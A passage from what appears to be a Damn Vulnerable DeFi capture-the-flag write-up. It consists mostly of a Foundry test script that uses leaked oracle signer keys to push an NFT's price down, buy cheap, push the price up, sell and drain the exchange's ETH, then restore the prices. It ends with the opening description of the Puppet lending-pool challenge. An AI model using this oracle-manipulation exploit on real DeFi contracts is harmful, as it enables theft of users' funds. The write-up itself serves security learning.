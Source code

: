 
```javascript
// 1. Manipulate oracle prices with the found private keys to be 0
uint256 medianPriceBefore = oracle.getMedianPrice("DVNFT");

vm.startBroadcast(0x188Ea627E3531Db590e6f1D71ED83628d1933088);
oracle.postPrice("DVNFT", 0.1 ether);
vm.stopBroadcast();
vm.startBroadcast(0xA417D473c40a4d42BAd35f147c21eEa7973539D8);
oracle.postPrice("DVNFT", 0.1 ether);
vm.stopBroadcast();
uint256 medianPriceAfter = oracle.getMedianPrice("DVNFT");

// 2. Buy NFT for cheap
vm.prank(player);
uint256 tokenId = exchange.buyOne{value: 0.1 ether}();

// 3. Manipulate oracle prices again to be high
vm.startBroadcast(0x188Ea627E3531Db590e6f1D71ED83628d1933088);
oracle.postPrice("DVNFT", 999.1 ether);
vm.stopBroadcast();
vm.startBroadcast(0xA417D473c40a4d42BAd35f147c21eEa7973539D8);
oracle.postPrice("DVNFT", 999.1 ether);
vm.stopBroadcast();

// 4. Sell NFT for high price
vm.startPrank(player);
nft.approve(address(exchange), tokenId);
exchange.sellOne(tokenId);
vm.stopPrank();

// 5. Deposite ETH to recovery account
vm.prank(player);
(bool success, ) = payable(recovery).call{value: EXCHANGE_INITIAL_ETH_BALANCE}("");
require(success, "Transfer failed.");

// 6. Manipulate oracles prices to initial prices

vm.startBroadcast(0x188Ea627E3531Db590e6f1D71ED83628d1933088);
oracle.postPrice("DVNFT", 999 ether);
vm.stopBroadcast();
vm.startBroadcast(0xA417D473c40a4d42BAd35f147c21eEa7973539D8);
oracle.postPrice("DVNFT", 999 ether);
vm.stopBroadcast();
```

## 8 - Puppet

There is a lending pool which offers borrowing of DVT tokens. It requires a 2x collateral in ETH. The DVT's value in ETH is calculated based on the ratio of ETH to DVT tokens in the exchange. The goal is to save all DVT tokens from the lending pool. 
